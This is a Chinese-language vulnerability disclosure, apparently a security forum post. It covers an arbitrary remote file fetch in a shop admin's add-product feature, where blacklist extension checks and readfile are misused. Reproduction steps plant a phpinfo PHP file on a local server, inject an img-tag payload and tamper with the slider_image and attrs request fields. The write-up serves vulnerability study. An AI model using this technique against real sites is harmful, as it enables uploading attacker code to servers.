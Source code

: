 【高危】后台远程任意文件拉取（添加商品）
--------------------

### 漏洞详情

导致该漏洞产生的问题在于没有对拉取文件后缀进行严格校验，使用黑名单进行匹配是非常不安全的。主要漏洞入口点在添加商品功能上，不安全的使用`readfile`函数。

### 漏洞复现

准备一个命名为`help.PHP`的文件，内容如下：

```php
<?=phpinfo();?>
```

使用 python 开启简单 http 服务，`python -m http.server 19000`

![document_image_rId40.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-f26e543028393a4eaa90d22742fb8fa46574e12d.png)

*注意服务名和端口，需要自行替换*。  
访问后台：`http://localhost:45600/admin`  
输入安装时设置好的账号密码登录后台，从左侧栏进入路径`商品->商品管理->添加商品`  
`http://localhost:45600/admin/product/add_product`

![document_image_rId41.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-b081a4fc39d01a457b2fd83d2bb93aa092a232f1.png)

**步骤一**  
填写商品基础信息，任意填写。

![document_image_rId42.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-67e4fc6abba3539ecbe52123c126db2d816a8e58.png)

**步骤二**

1. 进入商品详情界面，点击编辑器的HTML按钮。
2. 填写payload ```php
    <img src="http://localhost:19000/help.PHP?233">
    ```

![document_image_rId43.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-0654d4fdc1d3b7256140cde0bc76f0695798b519.png)

![document_image_rId44.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-b75b6e2a445bf0d9d2a8bfe0491a3d60626d67a3.png)

**步骤三**  
进入其他设置选项，点击保存并抓包。

![document_image_rId45.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-57367624643fea7ceffaa6ed3d79738c8330bcf0.png)

原始数据包：

![document_image_rId46.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-18a9786417927d9b8b1f186202914b8dd817a05a.png)

修改`slider_image`和`attrs`的值为`http://localhost:19000/help.PHP`。这里添加了`?123`是为了方便判断请求。

![document_image_rId47.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-157d6f9f72a8e933f52e924854f0558a90cd4d33.png)
